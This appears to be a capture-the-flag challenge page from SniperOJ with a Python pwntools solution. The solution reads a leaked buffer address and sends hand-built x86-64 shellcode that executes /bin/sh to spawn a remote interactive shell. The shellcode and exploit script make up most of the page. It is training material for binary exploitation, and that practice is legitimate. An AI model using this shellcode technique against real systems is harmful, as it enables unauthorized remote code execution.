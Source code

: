 #### Goals
 * Try to find the flag

#### Server Address
 * nc pwn.sniperoj.com 20006
 
#### Solution
```python
#!/usr/bin/env python

from pwn import *

# Io = process("./shellcode")
Io = remote("www.sniperoj.cn", 30004)

# read buffer addr
Io.readline()
addr_data = Io.readline()
addr = int(addr_data.split("[")[1].split("]")[0][2:], 16)
Io.readline()

# machine code
xor_esi_esi = "\x31\xf6"
mul_esi = "\xf7\xe6"
mov_rdi_bin_sh_addr = "\x48\xbf" + p64(addr)
mov_al_59 = "\xb0\x3b"
syscall = "\x0f\x05"
jmp_short_8 = "\xeb\x08"

# build payload
bin_sh = "/bin/sh\x00"
shellcode_addr = p64(addr + len(bin_sh))
payload = bin_sh + xor_esi_esi + mul_esi + mov_rdi_bin_sh_addr + jmp_short_8 + shellcode_addr + mov_al_59 + syscall

print "[+] Payload Length : [%d]" % (len(payload))

# send payload
Io.send(payload)

# get shell
Io.interactive()
```

#### Writeups
 * [Offical Writeup]()
 * [Other Writeup]()

